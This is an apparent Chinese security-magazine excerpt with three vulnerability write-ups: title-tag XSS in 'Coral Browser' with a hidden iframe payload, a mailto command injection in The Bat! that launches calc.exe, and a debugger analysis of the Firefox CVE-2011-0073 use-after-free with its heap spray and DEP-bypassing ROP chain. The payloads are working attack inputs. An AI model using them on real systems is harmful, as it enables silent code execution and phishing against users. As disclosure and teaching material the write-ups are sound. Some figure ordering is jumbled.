

图 4

从图 4 中我们看到，新的这个窗口是一个显示用户“经常访问”网址和“收藏夹”内容的编辑窗口。我们注意看，在图 4 的“经常访问”窗口中显示的内容看起来好像是我们经常访问网站的网站标题！

我相信看到这里，有些读者已经发现问题所在了。一个网站的网站标题部分，其实就是网页代码中属于“`<title>`”和“`</title>`”标签之间的内容。那么，我们现在就有一个新的思路：如果说我们自己编写一个网页，该网页中属于标题部分的内容我们将其控制为一些脚本代码，那么，如果“珊瑚浏览器”将这些被伪装后的脚本代码当做标题内容来处理，就很可能造成“珊瑚浏览器”直接执行这些脚本代码，从而发生安全隐患。

为了测试，我们在本地计算机上搭建一个 Web 环境，在其中放置一个名为“index.htm”的文件作为首页文件，编写该文件的代码为如下内容：

```html
<html>
<title><a href=http://www.baidu.com></title>
作为测试代码
</html>
```

在上述测试代码中，我们将“`<title>`”和“`</title>`”标签之间的内容设置为“`<a href=http://www.baidu.com>`”，这是一个超链接代码。现在，我们在“珊瑚浏览器”中多次访问 `http://127.0.0.1` 这个网址，目的是让浏览器认为 `http://127.0.0.1` 这个网址是我们经常访问的网址。多次访问 `http://127.0.0.1` 这个网址后，我们关闭浏览器，重新启动浏览器。这会再次打开如图 4 所示那个窗口，我们发现问题出现了，如图 5 所示。

在图 5 中，我们看到了一个显示为空白的部分，这里没有内容，但它却是一个指向百度的超链接。不信我们可以将鼠标滑动到这个空白处，如图 6 所示。

图 5

在这个新修改的代码中，我们多加了一段代码“``我的最爱”。这里“``”就是引入了一个图标，而“我的最爱”这四个字是为了迷惑用户来点击的。再次大量访问 127.0.0.1 这个网址，我们再次查看如图 6 所示的那个窗口，这一次，我们脚本代码显示得更加完美了，如图 7 所示。

图 7

图 6

当我们滑动鼠标到空白处时，看到了浏览器的左下角状态栏中出现了百度的网址，这意味着一旦我们在图 6 的空白处单击鼠标，那么浏览器将立即跳转到百度网站！

毫无疑问，我们在测试网页中所添加的脚本代码被“珊瑚浏览器”当做了网页的标题内容，而这些内容由于是脚本代码，所以浏览器又解析执行了这些脚本代码。如果我们插入的代码不是一个指向百度的超链接，而是指向某个恶意网站或者钓鱼网站的代码，那么用户在查看图 6 的经常访问网址时，一个不经意的鼠标单击，浏览器就会立即打开恶意网站了。

在图 6 中，我们还看到，此刻虽然空白部分指向了百度网址，但是空白部分的开始缺少一个类似图标。这是因为“珊瑚浏览器”将我们插入网页的脚本代码分为两行来显示。缺少了图标，一般用户就会察觉到此刻浏览器不对劲。为了更加迷惑用户，我们其实可以弥补这个缺失的图标。修改我们的 `index.htm` 代码，内容如下所示：

<title><a href=http://www.baidu.com>我的最爱</title>

```html
<html>
作为测试代码
</html>
```

当然，现在我们在利用这个漏洞的时候，还是主要让用户来触发一个超链接。其实，我们完全可以直接利用该漏洞来让用户的浏览器悄而无声地访问任意恶意网站，我们只需要将 `index.htm` 的代码修改为如下这个样子：

```html
<html>
<title><iframe src=http://127.0.0.1/xss.htm width=0 height=0></iframe></title>
作为测试代码
</html>
```

这段新的测试代码中，我们利用了 iframe 标签来引入其他网站的内容，而该框架的大小被显示为 0 个像素，于是用户看不到任何窗口，但是被引入的网页却被浏览器在后台打开了。保存上面新的测试代码，再次访问，然后查看“经常访问”，效果如图 8 所示。

图 8

图 8 中的这个对话框就是被引入的网页 `http://127.0.0.1/xss.htm` 的内容。如果我们在这里显示的不是一个对话框，而是其他的某种网页木马代码或者恶意执行脚本代码，那么用户自己怎么都不会想到只是查看一下经常访问的网址内容，鼠标键盘什么都没有动，自己就已经被恶意攻击了呢？

“珊瑚浏览器”的这个安全漏洞在表现形式上不是非常明显，但是在漏洞性质上属于一个常见的 XSS 类型漏洞，很多国内外知名的浏览器在这个问题上都出现过漏洞。“珊瑚浏览器”的这个 XSS 漏洞，隐蔽性较强，可以说不容易被发现，这就意味着我们在日常的漏洞测试挖掘工作中需要认真细心。还记得我在《挖 0day》一书中曾说过“好好阅读软件的说明书，它是你挖掘漏洞的指南针”，这句话很重要。最后，本文旨在讨论技术，希望读者不要以此文内容做任何违法行为，作者和杂志概不负责。

- 前置知识：无
- 关键词：远程命令、注入、漏洞

## The Bat! 远程命令注入执行漏洞

图/文 爱无言

还记得在去年的一段时间，我集中曝光了多个知名邮件客户端软件的安全漏洞，这些安全漏洞至今还有一些没有被修补，不知道这些软件的开发人员是怎么想的，等到用户抛弃这些软件的时候，他们是不是才会后悔莫及呢？

今天给大家带来的漏洞还是关于邮件客户端软件的，本次的主角是一个名为 “The Bat!” 的邮件客户端软件，该软件在国外的用户量较大。本次测试的 “The Bat!” 版本为 5.0.10，如图 1 所示。

图 1

我们知道，一般当我们将某个邮件客户端软件安装进自己的系统后，软件会修改注册表相应键值，使得该软件成为我们收发电子邮件的默认程序。举个简单的例子，我们现在打开 Windows 系统自带的 IE 浏览器，在其地址栏中输入 `mailto:test@test.com` 后回车，此刻系统就会自动启动你安装的邮件客户端软件。

之所以邮件客户端软件能够实现自动启动，它的原理就是借助了向系统注册表中注册一个对 “mailto” 协议的响应键值，该键值一般被称为 “mailto URI Handle”，它所对应的注册表键值为：`HKEY_CLASSES_ROOT\mailto`。该键值下面有一个关键的子键值 `HKEY_CLASSES_ROOT\mailto\shell\open\command`，它代表哪一个程序来作为系统的默认邮件处理程序，如图 2 所示。

图 2

在图 2 中我们看到，这里注册的键值为 `"C:\Program Files\The Bat!\thebat.exe" /nologo /o:"%1"`，这段数值其实分为两个部分。第一个部分是什么程序来作为系统默认邮件处理程序，这里是 `"C:\Program Files\The Bat!\thebat.exe"`，也就是说，是 The Bat! 这个程序来作为系统默认邮件处理程序。第二部分是 `"/nologo /o:"%1""`，这代表着用什么参数来启动系统的默认邮件处理程序。这里参数的作用主要是当用户点击 `mailto` 这样的协议时，系统会将 `mailto` 后的数值作为参数来传递到前面 `"/nologo /o:"%1""` 的 `%1` 处。这样，邮件客户端软件就能够获得此刻要向谁发送电子邮件。

说了这么多，我们来做一个演示以便于读者理解。首先，编写一个网页，其中的代码如下：`<a href=mailto:aiwuyan@aiwuyan.com>点击这里</a>`。这段代码很简单，就是一个超链接，该超链接的目标地址为 `mailto:aiwuyan@aiwuyan.com`。现在，保存该网页为 `mail.htm`，并将其上传到本地搭建的 Web 服务目录下。打开浏览器，输入网址 `http://127.0.0.1/mail.htm`，打开网页后，我们点击其中的“点击这里”超链接，效果如图 3 所示。

图 3

系统自动启动了 The Bat! 程序，同时，The Bat! 程序新建了一封电子邮件，其收件人地址正好就是我们在网页中设定的邮件地址 `aiwuyan@aiwuyan.com`。

有了上面这个案例，大家可能就比较理解我们前面对注册表中那个键值的解释。现在，一切看起来貌似很正常，但我们却在这里发现了一个问题。The Bat! 在注册启动参数的时候，它的 “o” 这个参数具有本地权限。我们可以启动 Windows 系统的 CMD 窗口，并切换到 The Bat! 的安装目录下，测试一下 “o” 这个参数。我们在 CMD 窗口输入的命令参数为 `thebat /o:"dd"`，如图 4 所示。

图 4

回车后，我们发现系统启动了 The Bat! 程序，同时 The Bat! 程序给出了一个警告提示框，如图 5 所示。

图 5

图 5 这个警告提示框提醒我们：难道说 The Bat! 的 “o” 参数可以起到对本地系统文件查找的功能？那么它会不会有更好的功能呢？现在，还是回到 CMD 窗口中，我们这一次传递给 The Bat! 的 “o” 参数一个真实程序的完整路径名称，这里是 Windows 系统自带的计算器程序路径名，看一看会有什么效果发生，如图 6 所示。

图 6

再次回车，我们发现一个奇怪的事情发生了，系统在启动了 The Bat! 程序后，同时也启动了计算器程序，如图 7 所示。

图 7

The Bat! 程序的 “o” 参数看来具有执行本地系统上任意程序的功能。这一次，我们就可以利用 The Bat! 程序的 “o” 参数实现远程在用户系统上运行任意程序！但是，我们的目的是想要实现“远程”在用户系统上执行，这样漏洞的影响力才够大。要实现这个目的，方法其实很简单，我们可以建立一个网页文件，在其中输入这样的代码：

```html
<a href='mailto:aiwuyan@aiwuyan.com /o:"c:\\windows\\system32\\calc.exe"'>点击这里</a>
```

保存上面的代码为 `mail.htm`，并上传 `mail.htm` 到本地搭建的 Web 服务目录下。现在我们用浏览器打开 `mail.htm` 所在的网址，用鼠标点击其中的“点击这里”超链接，你就会发现计算器程序连同 The Bat! 程序一起启动了！

我们的超链接内容被当作参数传递给 The Bat! 程序，这等于是命令行下启动了 The Bat!。于是，我们在超链接中加入的 “o” 参数被调用了，“o” 参数后的内容被 The Bat! 执行，漏洞发生了，计算器程序被执行了。

The Bat! 程序之所以会出现这样的安全漏洞，其实就是因为我们通过控制传递给 The Bat! 程序的参数，将恶意的命令传递给了 The Bat! 程序，结果就造成 The Bat! 程序可以悄而无声地执行用户本地计算机上的任意程序。该漏洞可以被恶意攻击者利用来实现远程启动用户系统上的木马程序，也可以造成恶作剧，直接导致用户系统自动关机注销等等，造成用户数据丢失。

最后，该漏洞属于首次公布，并且对于所有版本的 The Bat! 都有影响。在文章发布以前，我测试了最新版本的 The Bat! 5.0.18，该版本的 The Bat! 也存在本文涉及的漏洞。这里希望读者不要利用该漏洞做任何违法事情，作者与杂志概不负责，本文旨在讨论安全技术。希望 The Bat! 的开发者能够及时修补该漏洞，为广大使用者带来一个安全方便的使用体验。对于本文有任何问题，欢迎大家到作者博客 `http://hi.baidu.com/digexploit` 上留言讨论。

从漏洞性质上来分析，The Bat! 的这个漏洞属于典型的命令注入式漏洞。The Bat! 在响应我们点击超链接时，也就是 `mailto` 这个协议时，系统会自动将我们的超链接内容当作参数传递给 The Bat! 程序。

- 前置知识：汇编
- 关键词：Firefox、漏洞、POC

## 巧论 CVE-2011-0073 Firefox 漏洞

图/文 wingdbg

之前看雪的 cscoder 兄弟已经写过一篇日志了，详见 `http://bbs.pediy.com/showthread.php?t=135901`。cscoder 兄弟主要是通过调试分析漏洞触发原因，使用的是 WinDbg 来分析。他提供的 POC 我始终不能触发异常，跟他联系得知此 POC 只能在 Java 环境下才能过 DEP/ASLR。不得已，只能自己从 MSF 上获取，才发现 MSF 已有不依赖 Java 环境的稳定溢出 POC。笔者按照自己的思路详细描述自己对新 POC 的分析过程，思路感觉更加清晰。注重细节，几乎精确到每个调试过程。特别是最后的 ROP 构造，感觉在漏洞中是比较有特色的。

### 漏洞触发原因分析过程

拿到 POC 之后，用 Firefox 3.6.16 打开，正常弹出计算器。打开 JS 文件，破坏 Shellcode，取得异常，通过栈回溯找到异常点：

```asm
10466592  FF76 10      push  dword ptr [esi+10]
10466595  8B08         mov   ecx, dword ptr [eax]    // 虚函数表基地址
10466597  FF76 0C      push  dword ptr [esi+C]
1046659A  50           push  eax
1046659B  FF51 70      call  dword ptr [ecx+70]
```

很明显，这是一个覆盖虚表指针，然后由于虚表函数被调用，导致了 Shellcode 被执行。又是一个 use after free 的经典例子。

在上溯栈中函数返回值，发现调用：我们暂定 `call 1046657E` 调用的函数为 BugTrigger。

```asm
104A9473  8B4424 04    mov  eax, dword ptr [esp+4]
104A9477  8B40 1C      mov  eax, dword ptr [eax+1C]
104A947A  85C0         test eax, eax
104A947C  74 06        je   short 104A9484
104A947E  50           push eax
104A947F  E8 FAD0FBFF  call 1046657E
                        ; BugTrigger
104A9484  33C0         xor eax, eax
```

恢复 JS 中的 Shellcode，重新用调试器加载。在 BugTrigger 函数的入口处设置断点，调试器断了下来。此时通过栈回溯我们会发现：JS 中的代码在汇编中体现了出来，如图 1 所示。

首先创建了一个对象，然后进入了我们的 BugTrigger 函数。为了方便以后的分析，我们在 `call operator new` 处加入一个软件断点。在进入 BugTrigger 之前，我们查看 eax，也就是新创建对象指针对应的堆内容，如图 2 所示。

由于每次运行创建对象返回的指针不同，出于便于描述的考虑，我们把 eax 这个对象指针命名为 ObiPointer。

在 BugTrigger 函数开始处，有个执行流程的跳转判断，如图 3 所示。

我们在断点处可以看出，此时 `eax = [ObiPointer] + 8`。也就是说，此时会对 `[ObiPointer] + 8` 处的 DWORD 判断是否为 0，如图 4 所示。

`[ObiPointer] + 8` 不为 0，虚表函数得到调用。进入 `call dword ptr [ecx+70]` 时，我们在 BugTrigger 函数的入口处设置断点。程序在此处断下。也就是说，BugTrigger 函数在调用虚函数时，又嵌套调用它自己。

这里我们发现一个小情况：再次查看比较判断处 eax 地址的内存情况，惊奇地会发现，`[ObiPointer] + 8` 已经被修改为了 0 了，如图 5 所示。

此时栈回溯的信息告诉我们，调用 BugTrigger 的地址居然不是 104A947F，说明 BugTrigger 不只被一个函数调用。我们 IDA 查找，发现了另外一处调用 BugTrigger 的地方：

```asm
106F0DF8  56           push esi
106F0DF9  8B7424 08    mov esi, dword ptr [esp+8]
106F0DFD  8B46 1C      mov eax, dword ptr [esi+1C]
106F0E00  85C0         test eax, eax
106F0E02  74 17        je short 106F0E1B
106F0E04  50           push eax
106F0E05  E8 7457D7FF  call 1046657E
                        ; BugTrigger
```

前面已经说明，`[ObiPointer] + 8` 为 0 会导致虚函数得不到调用，因此我们在 `[ObiPointer] + 8` 地址处设置内存写入断点，查看 `[ObiPointer] + 8` 何时被修改为 0。重新运行 POC 调试，调试器在内存写入 eax 地址时断下，如图 6 所示。

在程序执行时，果然这个值被修改。这个时候我们查看内存中是否已经有喷射值，发现堆喷射没有进行。在另外溢出调用 BugTrigger 的函数开始处设置断点，调试器断在如图 7 所示（这时需要我们注意：这个断点是在第一次调用 BugTrigger 函数时 `call` 虚函数时断下来的）。

程序又一次调用 `call BugTrigger`，在进入函数内部时压入的参数和之前的 eax 是一样的。由于之前判断……处 `[ObjPointer+8]` 值已经被修改为 0 了，程序跳过了 `call [ecx+0x70]`。

采用了相当“猥琐”的 ROP 方法来过 DEP，稍后我们会发现，喷射的每个值都是极为精确的。



图 8



图 11

执行完 BugTrigger 之后，程序对对象指针进行了删除，并清零（如图 7 所示）。其实就是 JS 中 `zLUUrXiDV.clearSelection();` 函数的汇编实现过程，如图 8 所示。

在创建完这个对象并对此对象进行删除后，开始了堆喷射。其实就是为了覆盖刚刚删除的 ObjPointer 对象的内容，以便有可能覆盖虚表指针，进而在此对象的虚函数再次调用时控制 EIP。

对 ObjPointer 地址处的内存写入断点，不一会儿，喷射就到了这里，如图 9 所示。

总结上面的漏洞触发过程，我们发现一切操作都是围绕 BugTrigger 函数来进行的。

第一次属于创建对象后正常调用 BugTrigger，然后返回。对应 JS 中的情况如图 12 所示。



图 9

搜索整个内存，我们可以发现喷射是有规律的，如图 10 所示。

```javascript
var zLUUrXiDV = document.getElementById("r").view.selection;
zLUUrXiDV.clearSelection();
```

图 12

第二次调用 BugTrigger 时，调用虚函数的过程中，删除销毁了这个创建的对象指针 ObjPointer，并通过堆喷射覆盖了 ObjPointer 所在内存的数据（ObjPointer 此时是无效的）。等到我们从调用的虚函数中返回时，这个对象指针所在的区域已经和初始创建时大不相同了，直接导致虚函数再次被调用，也就是 use after free。对应 JS 中的情况如图 13 所示。



图 10

通过连续地申请堆空间，总有一次会覆盖 ObjPointer。

以上其实是第一次进入 BugTrigger 函数调用虚函数时，虚函数进行的所有操作。对应的 JS 代码就是 `zLUUrXiDV.select();`，它会执行 `invalidateRange:function(s,e)` 里面的操作，销毁对象指针 ObjPointer，堆喷射填充 ObjPointer 所指向的内存区域，其中当然包括把 `ObjPointer+8` 处设置为一个非零值，然后返回。

程序接着进行一个判断，即 `[ObjPointer+8]` 是否为零，直接导致跳转到 `0x1046657f` 处继续执行，如图 11 所示。

由于 ObjPointer 已经被 `0000000f 0000000f 0000000f 0000000f ad de` 所覆盖，`0x0f000000` 处又被喷射所覆盖，整个对象的虚函数表都能被控制。



图 13

## 漏洞利用的分析

继续分析。Ecx 已经变成 `0x0f000000` 处的值，由于之后它要自加 8 后 `[eax]` 与 0 比较，故而把 `0x0f000000` 处值设为 `0x0efffffc`，加上 8 后为 `0x0f000004`。正好位于我们可控制的数据堆 `0x0f000000` 的第二个 DWORD。由于 `[0x0f000004]` 要与 0 比较，为了让虚函数得到调用从而控制 EIP，必须使 `0x0f000004` 处的值不为 0。这完全是我们能控制的！

ROP 作者将 `[0x0f000004]` 设为 `0x0f000014`。为了描述方便，我们设置此值为 `ShellAddr`。继续执行，`eax=ShellAddr`。我们可以发现，不仅可以调用到任意地址，甚至可以先设置一些参数然后直接调用函数来执行。为了描述方便，我们设可控内存 `0x0f000000` 为 `ControlAddr`，调用函数为 `ControlFunc`。那么：

```c
ShellAddr = [ControlAddr + 0x4]
```

通过调用虚函数，可用的函数调用就是：

```c
ControlFunc(shellAddr, [ControlAddr+0xc], [ControlAddr+0x10]);
其中 shellAddr = [ControlAddr+0x4]
```

我们查看一下设置堆状态的函数（把堆内存变成可执行，绕过 DEP）：

```c
BOOL WINAPI VirtualProtect(
    __in  LPVOID lpAddress,
    __in  SIZE_T dwSize,
    __in  DWORD flNewProtect,
    __out PDWORD lpfOldProtect
);
```

这个函数有 4 个参数，我们要想达到目的，其他参数都好办，需要注意的有两个：

- 参数 `flNewProtect` 需要为 `0x40`（`PAGE_EXECUTE_READWRITE`），使 Shellcode 所在内存段可执行；
- 参数 `lpfOldProtect` 可以为硬编码地址，但是该地址必须是可写的，我们可以在程序运行的地址空间中找一个来设置。

我们看一下在压入 `[ControlAddr+0x10]` 前的堆栈状态：很不幸，我们需要的最后一个可写参数在固有的堆栈上是 0。这个时候需要转换思路，既然一次不行，我们通过两次调用来保证堆栈上的压入参数满足要求。这个时候，我们的思路是：既然可控参数有 3 个，我们首先找到一个少于 3 个参数的函数执行，这个函数要无关痛痒，对程序没有影响。函数调用返回后，堆栈上必然遗留有我们多压的一个或者两个参数。当再次调用时，我们可控的参数已经不是 3 个了，而是 4 个，甚至是 5 个，如图 14 所示。

ROP 作者选择的函数是 LoadLibrary。这个函数只有一个参数，极为符合我们的要求。

现在让我们来构造吧！第一次调用，调用 LoadLibrary 时，ShellAddr，也就是 `[ControlAddr+0x4]`，为函数需要的唯一参数。根据压栈顺序，我们需要 `[ControlAddr+0xc]` 为我们第二次调用需要的参数。既然需要可写，干脆就把 `[ControlAddr+0xc]` 设置为 `0x0f000000` 吧。`[ControlAddr+0x10]` 是我们不需要的东西，就设置为 0 吧。调用返回后，堆栈状态如图 15 所示。



图 14



图 15

第二次调用，调用 VirtualProtect 时，只需要将其余参数设置为我们需要的就行了。

这里会有几个疑问。

第一，怎么保证虚函数得到循环调用？其实就是刚才那个判断 `[ObjPointer+8]` 不为零即可。在第二次 `CALL` 时，`esi` 变成了 `[ControlAddr+8]`，最终 `[[[ControlAddr+8]]+8]` 会变成 VirtualProtect 的第一个参数，我们需要设置它为功能 Shellcode 开始处。这里我们设置 `[ControlAddr+8] = 0x0f000018`，而 `[0x0f000018]=0x0f000014`，`[0x0f000014+8] =` 功能 Shellcode 开始处（或者前面）。第二次调用的参数，此时 `ControlAddr' = 0x0f000018`。

第二，你怎么获取这两个函数的地址呢？在有 ASLR 的情况下，这个确实比较难。但是作者发现了规律：没有 ASLR 的情况下，模块 `mozcrt19.dll` 中：

`[0x781a9188+0x70] = VirtualProtect` 函数的地址  
`[0x781a9094+0x70] = LoadLibrary` 函数的地址

最终，ControlAddr 的堆区域分布如图 16 所示。

